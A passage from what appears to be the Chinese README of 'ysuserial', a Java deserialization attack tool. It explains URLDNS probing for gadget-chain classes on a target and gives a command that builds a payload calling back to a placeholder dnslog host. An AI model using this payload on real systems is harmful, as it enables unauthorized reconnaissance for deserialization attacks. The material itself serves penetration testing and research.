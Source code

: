 | linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux版本判断                                        |
|                                             | all                     |                                                              | 全部检测                                                     |

本项目参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：

- 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
- 反序列化流程中由于种种情况报错可能导致出不来。

因此这里还是提供了 all/common/指定类 三种探测方式：

- all：探测全部的类；
- common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
- 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

示例：`all:xxxxxx.dns.log`

```shell
java -jar ysuserial-<version>-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```

效果图：

![image-20220618211017835](images/image-20220618211017835.png)

## 其他利用链的拓展

对于 BeanShell1 及 Clojure 这两个基于脚本语言解析的漏利用方式。
